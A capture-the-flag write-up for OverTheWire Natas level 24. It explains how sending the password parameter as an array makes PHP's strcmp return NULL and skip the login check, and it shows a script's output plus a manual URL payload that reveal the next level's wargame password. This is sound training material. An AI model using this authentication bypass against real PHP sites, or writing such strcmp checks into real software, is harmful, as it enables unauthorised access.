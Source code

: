- The vulnerable code is:

```
if(!strcmp($_REQUEST["passwd"],"<censored>")){
```

So it **does** compare your input with the real password *exactly* using `strcmp`.

But the trick is:

If you submit an array instead of a string, strcmp() will return NULL, and !NULL is true in PHP. 

```
$ python3 natas24.py           
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas24", "pass": "MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd" };</script></head>
<body>
<h1>natas24</h1>
<div id="content">
Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>
<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/natas/natas24/index.php</b> on line <b>23</b><br />
<br>The credentials for the next level are:<br><pre>Username: natas25 Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws</pre>   
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

- You can also do it manually by appending `?passwd[]test` to the URL.

---

## 🏁 Password for the next level

`Username: natas25 Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws`

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)
